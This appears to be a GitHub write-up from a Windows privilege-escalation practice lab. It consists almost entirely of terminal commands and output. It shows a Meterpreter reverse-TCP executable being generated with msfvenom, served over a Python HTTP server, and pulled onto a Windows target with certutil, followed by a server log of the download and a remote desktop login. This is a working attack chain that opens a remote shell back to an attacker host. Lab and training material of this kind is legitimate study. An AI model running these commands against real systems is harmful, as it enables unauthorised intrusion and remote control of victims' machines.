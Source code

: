 <img width="580" height="85" alt="image" src="https://github.com/user-attachments/assets/9f059262-6490-4048-aa6d-4fb1239b3638" />

<br>
<br>
<br>

```bash
:~/WindowsPrivEscArena# msfvenom -p windows/meterpreter/reverse_tcp lhost=xx.xxx.xxx.xx -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

<img width="1290" height="257" alt="image" src="https://github.com/user-attachments/assets/274aa886-b213-4ce2-8a31-585169307f34" />

<br>
<br>
<br>

```bash
:~/WindowsPrivEscArena# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<br>

```bash
PS C:\Users\user> certutil.exe -urlcache -f http:/xx.xxx.xxx.xx:8000/program.exe program.exe
```

<img width="988" height="110" alt="image" src="https://github.com/user-attachments/assets/8f23fcf8-a235-4494-8e6c-141c94326451" />

<br>
<br>
<br>

```bash
:~/WindowsPrivEscArena# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xxx - - [28/Sep/2025 21:05:17] "GET /program.exe HTTP/1.1" 200 -
```

```bash
:~/WindowsPrivEscArena# rdesktop -u TCM -p "*********" xx.xxx.xx.xxx -g 80%
```

<img width="1453" height="623" alt="image" src="https://github.com/user-attachments/assets/67ae340f-d63c-474f-8723-1d20ca3a5ba8" />

<br>
<br>
<br>

<img width="1287" height="226" alt="image" src="https://github.com/user-attachments/assets/72f7c93e-e81a-4ba6-9ef2-ddabff77f600" />

